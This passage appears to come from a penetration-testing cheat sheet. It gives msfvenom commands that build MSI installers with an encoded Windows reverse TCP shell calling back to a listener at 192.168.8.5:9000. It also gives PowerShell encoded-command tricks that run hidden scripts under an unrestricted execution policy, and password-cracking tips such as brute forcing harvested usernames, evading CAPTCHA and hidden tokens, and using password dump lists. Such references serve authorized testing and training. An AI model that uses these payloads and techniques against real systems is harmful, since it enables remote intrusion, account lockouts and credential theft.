 To generate an `MSI file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

### PowerShell Encoded Command

To generate a PowerShell encoded command from a PowerShell script, run the following PowerShell command:

```pwsh
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes([IO.File]::ReadAllText($script)))
```

To run the PowerShell encoded command, run the following command from either PowerShell or Command Prompt:

```pwsh
PowerShell -ExecutionPolicy Unrestricted -NoProfile -EncodedCommand $command
```

To decode a PowerShell encoded command, run the following PowerShell command:

```pwsh
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($command))
```

Find out more about PowerShell reverse and bind TCP shells from my other [project](https://github.com/ivan-sincek/powershell-reverse-tcp).

## 5. Password Cracking

**Google a hash before trying to crack it because you might save yourself a lot of time and trouble.**

Use [Google Dorks](#google-dorks), [Chad](https://github.com/ivan-sincek/chad), or [FOCA](#foca) to find files and within file's metadata domain usernames to brute force.

**Keep in mind that you might lockout people's accounts.**

Keep in mind that some web forms implement CAPTCHA and/or hidden submission tokens which may prevent you from brute forcing. Try to submit requests without tokens or CAPTCHA.

You can find a bunch of wordlists in [SecLists](#wordlists).

### 5.1 Useful Websites

* [gchq.github.io/CyberChef](https://gchq.github.io/CyberChef)
* [onlinehashcrack.com](https://www.onlinehashcrack.com)
* [hashkiller.io/listmanager](https://hashkiller.io/listmanager) (has many other tools)
* [hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) (has many other tools)
* [crackstation.net](https://crackstation.net)
* [weakpass.com/wordlist](https://weakpass.com/wordlist) (lots of password dumps)
* [packetstormsecurity.com/Crackers/wordlists](https://packetstormsecurity.com/Crackers/wordlists)
